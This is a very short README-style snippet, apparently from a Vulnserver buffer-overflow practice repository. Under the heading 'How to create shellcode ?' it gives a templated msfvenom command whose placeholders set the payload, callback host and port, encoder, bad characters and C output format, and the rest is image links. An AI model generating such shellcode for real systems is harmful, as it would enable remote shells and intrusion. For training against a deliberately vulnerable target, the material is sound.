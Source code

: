 # How to create shellcode ?
### msfvenom -p [payload] LHOST=[IP Address] LPORT=[PORT] -e [encoder] --platform [platform] -b [badchars] -f [Format output ( C ) ]
![sck1ddie](https://raw.githubusercontent.com/sck1ddie/Vulnserver-Buffer-Overflow/main/bofsck1ddie.png)

